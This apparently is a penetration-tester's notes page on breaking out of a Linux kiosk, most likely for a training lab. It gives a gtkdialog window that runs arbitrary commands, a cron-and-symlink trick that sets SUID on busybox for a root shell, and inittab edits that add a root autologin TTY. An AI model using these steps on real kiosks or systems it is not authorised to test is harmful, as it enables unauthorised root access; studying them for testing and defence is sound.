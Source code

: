 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Linux_Kiosk_Breakout
---
```


<span style="font-size: 35px; color:red"><b>Linux Kiosk Breakout</b></span>
&nbsp;

```shell
sudo apt install tigervnc-viewer
```

Use <span style="color:red">xtigervncviewer</span> to connect.

If the kiosk presents a browser page, try:
- <span style="color:red">file:///var/www/localhost/</span>
- <span style="color:red">file:///var/www/localhost/index.html</span>
- <span style="color:red">chrome://</span>, <span style="color:red">ftp://</span>, <span style="color:red">mailto:</span>, <span style="color:red">smb://</span>, <span style="color:red">irc://</span>

Some of these might open a pop-up window that allows you to <span style="color:red">browse</span> and choose the program you want to use to open the link.
Interesting ones to exploit: <span style="color:red">gtkdialog</span>, <span style="color:red">firefox</span> (to open another firefox window with another profile, unlocking new functions on upper right corner)

If you can access the tools, search <span style="color:red">Web Developer </span> > <span style="color:red">Scratchpad</span>.

You can create the following script and save it as <span style="color:red">terminal.txt</span> to get Local Code Execution:
```html
<window>
  <vbox>
    <vbox scrollable="true" width="500" height="400">
        <edit>
          <variable>CMDOUTPUT</variable>
          <input file>/tmp/termout.txt</input>
        </edit>
    </vbox>
    <hbox>
      <text><label>Command:</label></text>
      <entry><variable>CMDTORUN</variable></entry>
      <button>
          <label>Run!</label>  
          <action>$CMDTORUN > /tmp/termout.txt</action>
          <action>refresh:CMDOUTPUT</action>  
      </button>
    </hbox>
  </vbox>
</window>
```

And call it from Firefox like <span style="color:red">irc://asd -f <path_to_terminal.txt></span>.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Privilege Escalation</b></span>
Check SUID: <span style="color:red">find / -perm -u=s -exec ls -al {} +</span>
Check running root processes: <span style="color:red">ps aux</span>
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Example of Privilege Excalation</b></span>
Openbox running as root process, if you run <span style="color:red">openbox --replace</span> it will reset everything and re-create the <span style="color:red">/home/guest/.mozilla/firefox/c3pp43bg.default/bookmarks.html</span> file. This allows you to write into privileged directories (<span style="color:red">ln -s /usr/bin /home/guest/.mozilla/firefox/c3pp43bg.default</span>).
You can create a script like the following (<span style="color:red">testscript.sh</span>):
```shell
echo "#!/bin/bash" > /etc/cron.hourly/bookmarks.html
echo "chown root:root /home/guest/busybox" >> /etc/cron.hourly/bookmarks.html
echo "chmod +s /home/guest/busybox" >> /etc/cron.hourly/bookmarks.html
```
This will set SUID bit on our local busybox file using chronojobs.
Once done, create a <span style="color:red">runterminal.sh</span>:
```shell
#!/bin/bash
/usr/bin/gtkdialog -f /home/guest/terminal.txt
```
and execute it like <span style="color:red">/home/guest/busybox sh /home/guest/runterminal.sh</span> to get root shell.

To get a better shell as root, run <span style="color:red">xdotool key Ctrl+Alt+F3</span> in our gtkdialog terminal. If nothing pops up, run:
```shell
cp /etc/X11/xorg.conf.d/10-xorg.conf /home/guest/xorg.txt
chmod 777 /home/guest/xorg.txt
```

To then comment out "DontVTSwitch" in <span style="color:red">/home/guest/xorg.txt</span>. Copy it back to its original location:
```shell
cp /home/guest/xorg.txt /etc/X11/xorg.conf.d/10-xorg.conf
```
and re-configure permissions:
```shell
chmod 644 /etc/X11/xorg.conf.d/10-xorg.conf
```
Run <span style="color:red">openbox --replace</span> again.

```shell
cp /etc/inittab /home/guest/inittab.txt
chmod 777 /home/guest/inittab.txt
```

Under the <span style="color:red">standard console login</span> section under the two commented lines, add a TTY like:
<span style="color:red">c3::respawn:/sbin/agetty --noclear --autologin root 38400 tty3 linux</span>

```shell
cp /home/guest/inittab.txt /etc/inittab
chmod 600 /etc/inittab
/sbin/init q
```
Then create a scratchpad like:
```shell
#!/bin/bash
killall x11vnc 
x11vnc -rawfb vt3
```
make it executable and run it. You should be kicked out of the session. When you will reconnect, you should have root access.
